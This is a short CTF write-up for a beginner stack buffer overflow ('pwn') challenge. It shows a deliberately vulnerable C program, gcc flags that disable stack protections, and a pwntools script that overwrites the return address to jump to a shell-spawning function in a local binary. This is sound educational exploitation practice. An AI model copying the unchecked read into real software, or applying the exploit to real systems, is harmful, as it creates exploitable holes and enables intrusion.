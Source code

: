 # Simple Buffer Overflow - 0x01
###### tags: `CTF` `PWN`

Follow the concept of lecture [0x00](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/SJAt7Pd5s)

## Original Code
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void y0u_c4n7_533_m3()
{
    execve("/bin/sh", (char *[]){0}, (char *[]){0});
}

int main()
{
    char buf[16];
    puts("This is your first bof challenge ;)");
    fflush(stdout);
    read(0, buf, 0x30);
    system("pause");
    return 0;
}
```

The secret function is aim to create a shell, therefore, our main purpose is try to get the shell by using buffer overflow.
We can check `bof` in the main function that it read the string with length `0x30` that bigger than `buf` size.
* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof3 bof3.c -zexecstack -no-pie -fno-stack-protector -z norelro
    ```
    ![](https://imgur.com/ehuCWTI.png)
    * Reference
    [pwn_resource](https://github.com/jwang-a/CTF/blob/master/TIPS/pwn_resource)

## Exploit
1. Tried to get the address of `y0u_c4n7_533_m3()` by using `objdump -d -M intel bof`. → `0x4011b6`
![](https://imgur.com/mlaNNCT.png)
2. Then we can construct the payload as below:
    ```python!
    from pwn import *
    r = process('./bof')
    magic_addr = 0x4011b6
    payload = b'a'*0x18 + p64(magic_addr)
    r.recvuntil(';)\n')
    r.send(payload)
    r.interactive()
    ```
3. Then we get shell!!!
    ![](https://imgur.com/Tug5Uii.png)